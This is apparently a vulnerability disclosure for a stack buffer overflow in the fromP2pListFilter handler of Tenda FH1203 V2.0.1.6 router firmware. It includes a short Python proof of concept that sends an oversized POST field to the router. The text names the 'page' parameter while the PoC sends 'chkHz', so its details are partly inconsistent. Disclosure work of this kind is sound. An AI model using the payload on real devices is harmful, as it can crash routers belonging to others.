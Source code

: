 

# fromP2pListFilter

## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details


There is a stack buffer overflow vulnerability in  FH1203 V2.0.1.6, located in the **fromP2pListFilter** function. The function receives the `page` parameter from a POST request. `   sprintf(v11, "p2p.asp?page=%s", v8);` The statement will cause a buffer overflow. The `page` value provided by the user may exceed the capacity of the `v11` array, thereby triggering this security vulnerability.
![image](https://github.com/user-attachments/assets/12d5091e-8e60-4022-abde-f1d1f718f739)


## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/P2pListFilter"
payload = b"a"*2000

data = {"chkHz": payload}
response = requests.post(url, data=data)
print(response.text)
```
![image](https://github.com/user-attachments/assets/1eccf7f2-38d2-45de-8ba9-cf4e9940563e)

